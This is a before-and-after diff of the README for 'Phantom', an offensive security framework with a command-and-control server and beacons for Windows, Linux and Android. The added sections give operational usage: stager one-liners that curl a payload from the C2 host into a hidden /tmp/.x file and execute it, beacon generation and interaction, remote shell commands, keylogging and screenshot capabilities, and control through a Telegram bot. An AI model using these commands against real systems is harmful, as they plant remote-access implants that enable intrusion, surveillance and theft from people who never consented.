

Before and after one commit to Terminalkid09/Phantom, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: update README for cross-platform, Telegram bot, Docker install

````diff
--- a/README.md
+++ b/README.md
@@ -7,27 +7,29 @@
 
-Phantom is an offensive security framework combining a full-featured C2 platform with a modular penetration testing CLI. The C2 beacon runs on Windows (x64), Linux (x64/x86), macOS, and Android (ARM64), communicating over AES-256-GCM encrypted channels with sleep/jitter OPSEC.
+Phantom is an offensive security framework combining a full-featured C2 platform with a modular penetration testing CLI. The C2 beacon runs on Windows (x64), Linux (x64/x86), Android (ARM64), and macOS, communicating over AES-256-GCM encrypted channels with sleep/jitter OPSEC.
 
 ---
 
 ## Architecture
 
 ```
-┌─────────────────────────────────────────────────────────────────────┐
-│                         C2 Server (aiohttp)                        │
-│  HTTP/HTTPS Listener      Task Queue        Beacon Registry        │
-└────────────────────┬────────────────────────────────────────────┘
-                     │ AES-256-CBC encrypted channel
-                     │ GET /x (payload)  POST /submit  GET /tasks
-                     │
-          ┌──────────┴──────────┐
-          │   Windows Beacon    │
-          │  (reflective load)  │
-          └──────────┬──────────┘
-                     │
-       ┌─────────────┼─────────────┐
-       │             │             │
-   SOCKS5 Proxy  SMB Pipe    Browser Pivot
-   (tcp relay)  (named-pipe)  (http tunnel)
+┌──────────────────────────────────────────────────────────────────────┐
+│                         C2 Server (aiohttp)                         │
+│  HTTP/HTTPS Listener      Task Queue        Beacon Registry         │
+│  Pending Results          Crypto Engine      Telegram Bot           │
+└──────────────────────┬───────────────────────────────────────────┘
+                       │ AES-256-GCM encrypted channel
+                       │ GET /api/v1/tasks  POST /api/v1/submit
+                       │ GET /api/v1/payload_<platform>?auth=<token>
+                       │
+          ┌────────────┼────────────┐
+          │            │            │
+    Windows Beacon  Linux Beacon  Android Beacon
+    (x64, PE)      (x64/x86, ELF) (ARM64, ELF)
+          │            │            │
+       SOCKS5       inject       inject
+       SMB Pipe     screenshot   screenshot
+       Browser Piv  keylog       keylog
+       CDP Pivot    (evdev)      (evdev)
 ```
 
 The reflective loader is appended to the beacon PE and loaded entirely in memory:
@@ -348,19 +361,54 @@ use report
 export pdf report.pdf
 ```
 
+### Deploy Beacon from C2 Shell
+
+```bash
+phantom --c2
+listeners start 8080
+generate windows
+# dropper prints a one-liner for the target platform
+# Linux target:
+generate linux
+# curl -sk 'http://<c2_ip>:8080/api/v1/payload_linux?auth=<token>' -o /tmp/.x \
+#   && chmod +x /tmp/.x && /tmp/.x <c2_ip> 8080 0
+# Android target:
+generate android
+# curl -sk 'http://<c2_ip>:8080/api/v1/payload_android?auth=<token>' -o $TMPDIR/.x \
+#   && chmod +x $TMPDIR/.x && $TMPDIR/.x <c2_ip> 8080 0
+```
+
 ### C2 Operations
 
 ```bash
 phantom --c2
-listeners start 443
-generate windows
-# Copy the PowerShell one-liner to target
+listeners start 8080
+generate linux
+# On target:
+# curl -sk 'http://<c2_ip>:8080/api/v1/payload_linux?auth=<token>' -o /tmp/.x \
+#   && chmod +x /tmp/.x && /tmp/.x <c2_ip> 8080 0
 beacons
 interact PHANTOM-00
 whoami
 sysinfo
-shell ipconfig /all
-download C:\Users\Public\report.pdf
+shell uname -a
+```
+
+### Standalone C2 Server (lighter, no shell)
+
+```bash
+python3 _run_c2.py
+# REST API at http://127.0.0.1:8080
+# Beacons check in via same endpoints as full C2 mode
+```
+
+### Telegram Bot Control
+
+```bash
+phantom --c2
+telegram
+# Then control beacons from your Telegram app:
+# /beacons → /interact <id> → /shell whoami
 ```
 
 ### Deploy Agent from Exploit Module
````
Also changed, not shown: other parts of README.md (+42 -16 lines).
